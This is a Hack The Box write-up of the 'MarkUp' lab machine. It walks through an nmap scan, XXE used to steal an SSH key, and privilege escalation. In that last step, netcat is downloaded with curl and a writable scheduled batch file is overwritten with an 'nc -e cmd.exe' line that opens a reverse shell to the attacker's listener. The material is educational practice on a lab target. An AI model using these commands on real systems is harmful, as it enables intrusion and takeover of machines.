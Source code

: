 ## ------------>> MarkUp <<-------------

// Credential extracted from last machine (included)

    login.sql: Daniel : >SNDv*2wzLWf

// We will start with nmap scan

    $ nmap -sV -A -Pn 10.10.10.49 -p-
    
    Nmap scan report for 10.10.10.49
    Host is up (0.20s latency).
    Not shown: 65532 filtered ports
    PORT    STATE SERVICE  VERSION
    22/tcp  open  ssh      OpenSSH for_Windows_8.1 (protocol 2.0)
    | ssh-hostkey: 
    |   3072 9f:a0:f7:8c:c6:e2:a4:bd:71:87:68:82:3e:5d:b7:9f (RSA)
    |   256 90:7d:96:a9:6e:9e:4d:40:94:e7:bb:55:eb:b3:0b:97 (ECDSA)
    |_  256 f9:10:eb:76:d4:6d:4f:3e:17:f3:93:d6:0b:8c:4b:81 (ED25519)
    80/tcp  open  http     Apache httpd 2.4.41 ((Win64) OpenSSL/1.1.1c PHP/7.2.28)
    | http-cookie-flags: 
    |   /: 
    |     PHPSESSID: 
    |_      httponly flag not set
    |_http-server-header: Apache/2.4.41 (Win64) OpenSSL/1.1.1c PHP/7.2.28
    |_http-title: MegaShopping
    443/tcp open  ssl/http Apache httpd 2.4.41 ((Win64) OpenSSL/1.1.1c PHP/7.2.28)
    | http-cookie-flags: 
    |   /: 
    |     PHPSESSID: 
    |_      httponly flag not set
    |_http-server-header: Apache/2.4.41 (Win64) OpenSSL/1.1.1c PHP/7.2.28
    |_http-title: MegaShopping
    | ssl-cert: Subject: commonName=localhost
    | Not valid before: 2009-11-10T23:48:47
    |_Not valid after:  2019-11-08T23:48:47
    |_ssl-date: TLS randomness does not represent time
    | tls-alpn: 
    |_  http/1.1
    
### --Exploit--

// There is a loging website 

![Image 1](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/MarkUp/1.png)

// Connect with cradentials Daniel : >SNDv*2wzLWf .  We can see in order tab that we can get query request from server

![Image 2](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/MarkUp/2.png)

// we take a look with burpsuite on the request, sent to reapter to furter edit the request

![Image 3](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/MarkUp/3.png)

// Lets check if the site is vulnerable to XXE[XML External Entity]. (Read about [xxe](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing) here)

![Image 4](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/MarkUp/4.png)

// Its seems the site is indeed vulnerable to xxe !. We can try extract ssh private key since 22/tcp ssh service open.

![Image 4](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/MarkUp/5.png)

// Its worked !, Now we will save the private key as ssh_daniel_private.key and connect to the server.

    $ ssh -i ssh_daniel_private.key daniel@10.10.10.49

// I had some problems when get some ERROR that requested Daniel's password, to solve that we need
to change the private key permissions.

    $ chmod 600 ssh_daniel_private.key
    $ ssh -i ssh_daniel_private.key daniel@10.10.10.49


// And we have Connection !

    daniel@MARKUP C:\Users\daniel\Desktop>whoami
    markup\daniel

    daniel@MARKUP C:\Users\daniel\Desktop>type user.txt
    032d2fc......................

### ----Privilleges Escalation----

// After some digging in noticed to a file named job.bat in :\Log-Management

    daniel@MARKUP C:\Log-Management>dir
     Volume in drive C has no label.
     Volume Serial Number is 4C8E-E2DC

     Directory of C:\Log-Management

    03/12/2020  03:56 AM    <DIR>          .
    03/12/2020  03:56 AM    <DIR>          ..
    03/06/2020  02:42 AM               346 job.bat
                   1 File(s)            346 bytes
                   2 Dir(s)  13,828,132,864 bytes free



// We can see that all he do its to clear logs

    daniel@MARKUP C:\Log-Management>type job.bat
    @echo off 
    FOR /F "tokens=1,2*" %%V IN ('bcdedit') DO SET adminTest=%%V
    IF (%adminTest%)==(Access) goto noAdmin
    for /F "tokens=*" %%G in ('wevtutil.exe el') DO (call :do_clear "%%G")
    echo.
    echo Event Logs have been cleared!
    goto theEnd
    :do_clear
    wevtutil.exe cl %1
    goto :eof
    :noAdmin
    echo You must run this script as an Administrator!
    :theEnd
    exit



// we also can see that group BUILTIN\Users has full control [F] over the file
// those users represent all local users which includes daniel

    daniel@MARKUP C:\Log-Management>icacls job.bat
    job.bat BUILTIN\Users:(F)
            NT AUTHORITY\SYSTEM:(I)(F)
            BUILTIN\Administrators:(I)(F)
            BUILTIN\Users:(I)(RX)

    Successfully processed 1 files; Failed processing 0 files



// Deliver netcat to target with python http server

    $ python3 -m http.server 9002


    daniel@MARKUP C:\Log-Management>curl http://10.10.16.11:9002/nc.exe -o c:\users\daniel\nc.exe   
      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                     Dload  Upload   Total   Spent    Left  Speed
    100 59392  100 59392    0     0  59392      0  0:00:01  0:00:01 --:--:-- 44190


// Edit job.bat

    daniel@MARKUP C:\Log-Management>echo C:\Users\daniel\nc.exe -e cmd.exe 10.10.16.11 1444 > C:\Log
    -Management\job.bat


     $ nc -lvnp 1444
    listening on [any] 1444 ...
    connect to [10.10.16.11] from (UNKNOWN) [10.10.10.49] 49758
    Microsoft Windows [Version 10.0.17763.107]
    (c) 2018 Microsoft Corporation. All rights reserved.

    C:\Windows\system32>whoami
    whoami
    markup\administrator

    C:\Users\Administrator\Desktop>type root.txt
    type root.txt
    f574a3e.....................


